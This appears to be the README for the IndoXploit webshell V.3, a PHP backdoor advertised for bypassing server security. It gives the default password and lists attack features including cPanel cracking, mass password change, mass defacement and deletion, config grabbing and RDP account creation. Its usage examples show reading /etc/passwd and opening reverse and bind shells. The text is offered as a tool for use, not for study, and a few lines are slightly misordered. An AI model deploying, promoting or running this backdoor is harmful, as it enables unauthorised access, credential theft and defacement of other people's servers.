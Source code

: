 # IndoXploit Webshell V.3

IndoXploit webshell V.3 is an PHP based webshell or backdoor with unique and usefull features. This webshell is originally coded by **agussetyar** from **IndoXploit Coders Team**. IndoXploit Shell has been mentioned repeatedly by the coder that it will make you easily bypass server security. With this shell you can comfortably bypass the server firewall from most secure servers. It is one of the hacker's most preferred backdoor shell.

---

## Screenshot
- login
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/indoxploit-login.PNG "Login Shell")
Default Password : **IndoXploit**

- interface
![idx](https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/screenshot/idx-interface.PNG "Shell Interface")
Webshell Interface

## Features
- Mass Password Change
- Fake Root
- Cpanel Crack
- Mass Deface/Delete File
- Zone-H Mass Submit

## How to Use
 - Read File
 usage: rf [filename]
 example: rf /etc/passwd

 - Spawn File/Tools 
 usage: spawn [name]

 [name]
- Adminer (adminer)
 - WebConsole (webconsole)
 - CGI Telnet 1 (cgitelnet1)
 - CGI Telnet 2 (cgitelnet2)
 - PHPINFO (phpinfo)

 example:
 spawn adminer
 spawn webconsole
 spawn cgitelnet1

- Jumping
usage: jumping

- Config Grabber
usage: idxconfig

 - Symlink 
 usage: symlink

 - Reverse Shell 
 [Back Connect]
 usage: rvr bc [IP] [PORT] [TYPE]
 example:
 ~~~
 rvr bc 127.0.0.1 1337 bash
 rvr bc 127.0.0.1 1337 perl
~~~

 [Bind Port]
 usage: rvr bp [PORT] [TYPE]
 example:
~~
 rvr bp 1337 perl
~~

 - KRDP - Create RDP Account (for windows server only) 
 usage: krdp

 - Logout From Shell
 

 - Kill Backdoor 
usage: killme

 ## Contribute
 Drop an email at **shu@indoxploit.or.id** and tell us what your suggestions about how to improve this webshell.
usage: logout
